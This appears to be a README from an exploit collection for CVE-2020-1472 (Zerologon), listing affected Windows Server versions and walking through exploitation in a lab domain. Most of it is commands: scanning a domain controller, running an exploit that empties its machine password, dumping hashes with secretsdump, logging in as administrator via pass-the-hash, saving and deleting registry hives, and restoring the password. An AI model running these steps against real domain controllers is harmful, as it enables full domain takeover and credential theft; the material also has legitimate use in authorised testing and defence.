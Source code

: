 ## CVE-2020-1472

#### Describe

An elevation of privilege vulnerability exists when an attacker establishes a vulnerable Netlogon secure channel connection to a domain controller, using the Netlogon Remote Protocol (MS-NRPC), aka 'Netlogon Elevation of Privilege Vulnerability'.

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| :------------------ | :--------------- | ------- | ------ | ------------------ |
| Windows Server 2008 | x64              | R2      | SP1    | &#10004; |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Server 2016 |                  |         |        |                    |
| Windows Server 2019 |                  |         |        |                    |
| Windows Server      |                  | 1903    |        |                    |
| Windows Server      |                  | 1909    |        |                    |
| Windows Server      |                  | 2004    |        |                    |
| Windows Server      |                  | 20H2    |        |                    |

#### Patch

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472
```

#### Utilization

> 注意：EXP脚本会重置域控机器的密码！！！不要瞎鸡儿乱用！！！！！！！！

Test system Windows Server 2008 R2 SP1 X64 ，And set the environment to domain control machine

![image-20201002201920794](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2020-1472_dc-server.png)

As you can know above:

- Domain->ascotbe.com
- Computer name->dc
- Domain control IP->192.168.183.171

Using the previous environment configuration, you need a version of Python3.7 +, if you have previously installed the python packet installed` Impacket`(Such as Kali) Need to uninstall the package, shortcut statement that reinstalls `0.9.21`,`python3 -m pip install git+https://github.com/SecureAuthCorp/impacket`，Below is a general method

```
python3 -m pip install -r Kernelhub.txt
#If you discard the download slow project, you can use it.
git clone --depth=1 https://github.com/SecureAuthCorp/impacket
```

> Scan script

This script is used to test whether the machine has a vulnerability

```
#Usage: CVE-2020-1472_Scan.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Scan.py dc 192.168.183.171
```

![image-20201002203037104](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2020-1472_scan.png)

> Use script

The script will reset the password to empty! ! It is easy to control the loss! !

```
#Usage: CVE-2020-1472_Exploit.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Exploit.py dc 192.168.183.171
```

![image-20201002204223509](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2020-1472_exp.png)

Then enter the downloaded `impacket` project, log in with an empty password

```
cd impacket/examples/
#Usage: secretsdump.py <dc>/<dc-name>\$@<dc-ip>
python3 secretsdump.py ascotbe.com/dc\$@192.168.183.171 -no-pass
```

![image-20201002203751057](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2020-1472_secretsdump.png)

Then use HASH to log in

```
#Usage: wmiexec.py -hashes <user-hash> <dc>/<user-name>@<dc-ip>
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:45280efa2300182b4f7fdc2cee182149  ascotbe.com/administrator@192.168.183.171
```

![image-20201002204817764](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2020-1472_wmiexec.png)

> Restore password

After saving your password, download to the local, then delete the file on the domain control.

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del system.save
del sam.save
del security.save
```

![image-20201002205958192](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2020-1472_hash.png)

Next to decrypt

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

![image-20201002210258903](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2020-1472_decrypt_hash.png)

You can see that this is the password before modifying, followed by back to the desktop using the script recovery password

```
#Usage: CVE-2020-1472_RestoreOriginalPassword.py <dc-name> <dc-ip> <dc-original-hash>
python3 CVE-2020-1472_RestoreOriginalPassword.py dc 192.168.183.171 d4ac5a73fd3f13dfd9d6de036a9e99a2
```

![image-20201002212122966](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2020-1472_restore_original_password.png)

#### Analyze
- https://xz.aliyun.com/t/8367
- https://www.freebuf.com/articles/system/249860.html
- https://www.freebuf.com/vuls/249813.html
- https://cert.360.cn/report/detail?id=2e904ef9ac96834a3dd7fc058cea4fe5

#### ProjectSource

- Scan script:[SecuraBV](https://github.com/SecuraBV/CVE-2020-1472)
- Use script:[dirkjanm](https://github.com/dirkjanm/CVE-2020-1472)
- Recovery script:[risksense](https://github.com/risksense/zerologon)
